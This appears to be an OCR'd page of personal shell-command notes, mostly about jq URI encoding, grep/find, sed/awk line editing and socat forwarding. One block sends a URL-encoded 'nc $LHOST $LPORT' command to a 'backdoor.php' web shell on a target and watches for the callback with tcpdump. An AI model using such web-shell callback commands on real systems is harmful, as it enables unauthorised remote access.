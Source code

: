 
```sh
for i in $(seq 1 254); do echo 192.168.50.$i; done > target.txt
```




```sh
CMD="nc $LHOST $LPORT"
PAYLOAD=$(echo -n $CMD | jq -sRr @uri)

curl "http://$RHOST/backdoor.php?cmd=$PAYLOAD"
curl -G --data-urlcode "cmd=$CMD" "http://$RHOST/backdoor.php"

sudo tcpdump -nv tcp -i tun0 src host $RHOST and dst port $LPORT
```



for i in $(ls /home); do cd /home/$i && /bin/tar -zcf /etc/backups/home-$i.tgz *; done




echo '{"a": "text with / and spaces &"}' | jq '@uri "\(.a)"'
# output
# "texte%20with%20%2F%20and%20spaces%20%26"

echo '{"search":"what is jq?"}' | jq '@uri "https://www.google.com/search?q=\(.search)"'
# output
# "https://www.google.com/search?q=what%20is%20jq%3F"

printf %s "same text as above with / and spaces &"|jq -sRr @uri
# output
# same%20text%20as%20above%20with%20%2F%20and%20spaces%20%26






Use grep's -l option to list the paths of files with matching contents, then print the contents of these files using cat.

grep -lR 'regex' 'directory' | xargs -d '\n' cat 

The command from above cannot handle filenames with newlines in them. To overcome the filename with newlines issue and also allow more sophisticated checks you can use the find command.

The following command prints the content of all regular files in directory.

find 'directory' -type f -exec cat {} +

To print only the content of files whose content matches the regexes regex1 and regex2, use

find 'directory' -type f \
     -exec grep -q 'regex1' {} \; -and \
     -exec grep -q 'regex2' {} \; \
     -exec cat {} +

The linebreaks are only for better readability. Without the \ you can write everything into one line.
Note the -q for grep. That option supresses grep's output. grep's exit status will tell find whether to list a file or not.





sudo ip addr add 192.168.178.49/24 dev vboxnet0
sudo socat TCP-LISTEN:80,fork TCP:192.168.56.114:80

sudo ip addr del 192.168.178.33/24 dev vboxnet0


# To replace the content of a specific line number n in a file on a Linux machine

sed -i "${n}s/.*/NEW_CONTENT/" file.txt
awk -v n=LINE_NUMBER -v new_content="NEW_CONTENT" 'NR == n {print new_content; next} {print}' file.txt > temp.txt && mv temp.txt file.txt

ed -s file.txt <<EOF
n
c
NEW_CONTENT
.
w
q
EOF

head -n $((LINE_NUMBER-1)) file.txt > temp.txt
echo "NEW_CONTENT" >> temp.txt
tail -n +$((LINE_NUMBER+1)) file.txt >> temp.txt
mv temp.txt file.txt
